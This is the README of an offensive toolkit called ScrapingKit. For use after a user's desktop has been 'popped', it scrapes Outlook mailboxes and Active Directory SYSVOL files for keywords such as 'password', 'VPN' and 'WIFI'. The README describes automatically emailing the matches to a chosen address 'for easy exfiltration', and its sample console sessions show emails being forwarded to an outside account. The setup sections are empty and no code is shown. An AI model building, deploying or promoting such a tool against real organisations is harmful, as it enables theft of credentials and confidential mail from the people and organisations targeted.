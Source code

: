 # ScrapingKit
Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains three tools currently with more to come in the coming months and more customisation options.

- OutlookScraper
- DCScraper
- Outlook_and_DC_Scraper_Combined
## Outlook Scraper

### What it is

### How to setup/use

## DC Scraper

### What it is

It helps identify files that contain specific keywords in the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

## Outlook and DC Scraper Combined

### What it is

It’s a combination of both console applications with the functions selected via menu driven options. This can scrape the DC or emails for chosen keywords.

### How to setup/use

Read this blog post for more detailed information Add-Link

Compile then execute with either PowerShell, CMD or if you have physical access simply double click it.
The following menu screen will load.

Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit


### Example Option 1 using the default keywords

After selecting option 1 you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com

### Example Option 1 using user defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com